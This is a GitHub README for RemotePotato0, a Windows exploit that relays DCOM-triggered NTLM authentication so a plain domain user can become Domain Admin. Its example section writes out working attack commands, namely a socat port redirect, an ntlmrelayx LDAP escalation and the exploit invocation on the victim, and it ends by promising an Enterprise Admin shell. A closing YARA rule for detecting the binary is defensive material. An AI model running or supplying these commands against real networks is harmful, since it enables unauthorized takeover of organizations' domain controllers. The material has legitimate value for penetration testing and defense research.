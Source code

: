 # RemotePotato0
Just another "Won't Fix" Windows Privilege Escalation from User to Domain Admin.

RemotePotato0 is an exploit that allows you to escalate your privileges from a generic User to Domain Admin. 

Briefly:

It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine.
It is required you have a shell in session 0 (e.g. WinRm shell or SSH shell) and that a privileged user is logged on in the session 1 (e.g. a Domain Admin user).
Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource.

Full details at --> https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop

## Example

Attacker machine (10.0.0.11):

```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.11:1111 &
sudo ntlmrelayx.py -t ldap://10.0.0.10 --escalate-user winrm_user --no-wcf-server
```

Victim machine (10.0.0.20):

```
.\RemotePotato0.exe -r 10.0.0.11 -p 1111
```

Victim Domain Controller (10.0.0.10)

Enjoy shell (eg. psexec) as Enterprise Admin to the domain controller ;)

## Demo

<img src="demo.gif">

## Detection

Yara rule to detect RemotePotato0 binary:

```
rule SentinelOne_RemotePotato0_privesc {
    meta:
        author = "SentinelOne"
        description = "Detects RemotePotato0 binary"
        reference = "https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop"
        
    strings:
        $import1 = "CoGetInstanceFromIStorage"
        $istorage_clsid = "{00000306-0000-0000-c000-000000000046}" nocase wide ascii
        $meow_header = { 4d 45 4f 57 }
        $clsid1 = "{11111111-2222-3333-4444-555555555555}" nocase wide ascii
        $clsid2 = "{5167B42F-C111-47A1-ACC4-8EABE61B0B54}" nocase wide ascii
        
    condition:        
        (uint16(0) == 0x5A4D) and $import1 and $istorage_clsid and $meow_header and 1 of ($clsid*)
}
```

## Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)

## Credits

* [Impacket](https://github.com/SecureAuthCorp/impacket)
